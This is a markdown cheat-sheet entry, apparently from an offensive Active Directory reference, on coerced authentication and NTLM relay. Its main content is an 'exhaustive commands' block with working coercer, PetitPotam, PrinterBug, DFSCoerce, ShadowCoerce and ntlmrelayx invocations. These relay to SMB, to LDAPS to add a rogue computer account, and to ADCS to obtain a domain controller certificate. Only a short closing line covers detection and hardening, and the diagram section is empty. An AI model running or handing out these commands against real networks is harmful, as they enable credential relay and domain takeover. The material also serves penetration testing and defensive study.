

# Coerced authentication → NTLM relay

### Affected object / attribute
**Authentication coercion** (EFSRPC, RPRN, DFSNM) + **relay target** (SMB/LDAPS/HTTP).

### Concept (deep)
Force a privileged principal to authenticate to you, then **relay** that auth to a target without signing/EPA. Coercion catalogue: **EFSRPC (PetitPotam)**, **RPRN (PrinterBug)**, **DFSNM (DFSCoerce)**, **ShadowCoerce**, **MSEven**.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Coercion meta-tool ───────────────────────────────────────────────
coercer coerce -u user -p pass -t 10.10.10.5 -l 10.10.10.99

# ── Specific coercion methods ────────────────────────────────────────
python3 PetitPotam.py 10.10.10.99 10.10.10.5
python3 printerbug.py 'corp.local/user:pass'@10.10.10.5 10.10.10.99
python3 dfscoerce.py -u user -p pass 10.10.10.99 10.10.10.5
python3 shadowcoerce.py -u user -p pass 10.10.10.99 10.10.10.5

# ── Relay targets ────────────────────────────────────────────────────
ntlmrelayx.py -t smb://10.10.10.5 -smb2support
ntlmrelayx.py -t ldaps://10.10.10.5 --add-computer PWNED
ntlmrelayx.py -t http://10.10.10.20/certsrv/certfnsh.asp \
  -smb2support --adcs --template DomainController
```

### Detection and defensive measures
**4624 type 3** to attacker; EFSRPC/RPRN/DFSNM RPC calls; enable **SMB/LDAP signing** + **EPA**; disable the Spooler on DCs.

---
